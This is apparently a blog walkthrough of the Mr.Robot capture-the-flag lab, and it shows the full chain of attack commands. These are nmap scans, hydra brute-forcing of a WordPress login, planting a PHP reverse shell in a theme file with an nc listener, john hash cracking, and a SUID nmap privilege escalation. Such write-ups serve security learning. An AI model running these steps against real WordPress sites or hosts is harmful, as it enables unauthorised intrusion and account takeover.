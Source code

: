 +++
title = 'Mr.Robot CTF'
date = 2024-09-12T23:14:19-04:00
+++
Mr.Robot CTF
===

### environment
KALI Linux ip 10.10.228.21

TARGET 10.10.106.11
###   Hack the machine

- [x] key1
First,use nmap to confirm which port is open

```
nmap -sV -sC 10.10.106.11
```

We know that port 80 443 is open, we can check port 80 and 443 .

http://10.10.106.11,we got like hacker command line interface,but that just say why Mr.Robo hacker billionaire.

![image](https://user-images.githubusercontent.com/67756786/193573386-bd27b73e-8e9c-4a41-bf71-262b67a0d4ac.png)

I think that can use nmap to scan http

```
nmap -p80 --script http-enum 10.10.106.11
```
![image](https://user-images.githubusercontent.com/67756786/193574089-ea48f301-ba26-4d90-8287-97e9561c9ad3.png)

We got some page information,first,I visit robots.txt.

I got one dictionary and key1

![image](https://user-images.githubusercontent.com/67756786/193574635-83e789b6-4bca-492a-9951-6fe1d4451809.png)

- [x] key2

I sort dictionary and purge same word.

```
sort fsocity.dic | uniq > fsocity.dic.uni
```

Originally there have 800000 more word, but remain 10000 more word after sort.

![image](https://user-images.githubusercontent.com/67756786/193575699-9e38693f-ea5c-4c2d-893e-6270e4d6541d.png)
![image](https://user-images.githubusercontent.com/67756786/193575822-6868847e-e833-4678-89be-9952ae8af6ff.png)

check wordpress version,press F12 and search ver,we know wordpress version is 4.3.1

![image](https://user-images.githubusercontent.com/67756786/193729112-0f6e00f9-82c0-4d86-b939-bbefd77e3dd6.png)

wordpress has user enumeration exploit,if wrong user will print invaild username.

![image](https://user-images.githubusercontent.com/67756786/193732070-2e9655b1-dc9c-46a2-bb0a-f3f4080f97b3.png)

Now we can use burp suite to intercept WP login request.


![image](https://user-images.githubusercontent.com/67756786/193734649-924974cd-c922-495d-8aef-b8ec9ef0b0ac.png)



We can use hydra to brute force username,and we got username Elliot.

```
hydra -L fsocity.dic.uniq -p password 10.10.168.7 http-post-form -t 30 '/wp-login.php:log=^USER^&pwd=^password^&wp-submit=Log+In:Invalid username'
```

![image](https://user-images.githubusercontent.com/67756786/193734975-7d2cef62-364d-469e-ab78-7aacfae83126.png)

Next try password,use same dictionary to crack password.

```
hydra -l Elliot -P fsocity.dic.uniq 10.10.168.7 http-post-form -t 30 '/wp-login.php:log=^USER^&pwd=^password^&wp-submit=Log+In:The password you entered'
```
IF I hadn't sort the dictionary , that could been wait for a long time.

Now got pw is ER28-0652

I upload php reverse shell to 404.php(appearance->editor->404.php)
php reverse shell source code.
(https://github.com/pentestmonkey/php-reverse-shell)

![image](https://user-images.githubusercontent.com/67756786/193764939-d7e21dc5-24e6-4d0b-b819-6b647658cb33.png)

kali listen to 1234,and url paste 10.10.195.36/404.php.

```
nc -lvnp 1234
```

Now got reverse shell,and use pty 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
press Ctrl + z
stty raw -echo; fg
press twice Enter
```
![image](https://user-images.githubusercontent.com/67756786/193771566-23cc7cab-0073-464e-8b33-e8db6df45c27.png)

cd to /home ,and use ls to confirm user

```
cd /home
ls
```

![image](https://user-images.githubusercontent.com/67756786/193771931-613113da-5cf5-4b1c-afad-3b6e7d12fc8a.png)

into robot ,after we got key2 but Permission denied.

![image](https://user-images.githubusercontent.com/67756786/193772149-c3944d0c-2515-4839-8ee5-feda2d983899.png)

Now confirm password.raw-md5

![image](https://user-images.githubusercontent.com/67756786/193772294-2723582e-4844-4ad6-a5ad-dd8119204a48.png)

We can use john to crack that,dictionary use rockyou.txt

robot's hash password save to hash.txt for john.

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt   hash.txt
```

![image](https://user-images.githubusercontent.com/67756786/193775597-1769c5b9-ca88-4750-9467-cb523654e582.png)

Now, login by robot,and confirm key2

![image](https://user-images.githubusercontent.com/67756786/193776151-851a1845-6b42-4ae0-8c97-66d2f2623de3.png)

. [x] key3

key3 under the root directory.
Fist I confirm robot's privillege. Robot is common user not super user.

![image](https://user-images.githubusercontent.com/67756786/193777451-e8cbdbc7-e0bc-4136-9b4b-9a5638da1da8.png)

So we need privilege escalation.Fisrt, I try linpeans but not work.Second, I find SUID file to privilege escalation.

```
find / -perm -u=s -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67756786/193778841-d5360896-d57f-4dea-9594-dd39a1e6a6ab.png)

Hint say namp , so we confirm namp privilege escalation from GFTOBins.

![image](https://user-images.githubusercontent.com/67756786/193779436-78d850ac-203c-4e96-91f8-bbe7b2167973.png)

Check nmap version

![image](https://user-images.githubusercontent.com/67756786/193779509-f7bed3a7-43d7-4ef0-baeb-4447a9fb87fa.png)

It's work!

![image](https://user-images.githubusercontent.com/67756786/193779671-9b27d506-df96-482d-8b14-e1b6cbc07d87.png)

cat key3

![image](https://user-images.githubusercontent.com/67756786/193779863-81afcb87-d9a0-43ce-9c25-392535e58111.png)

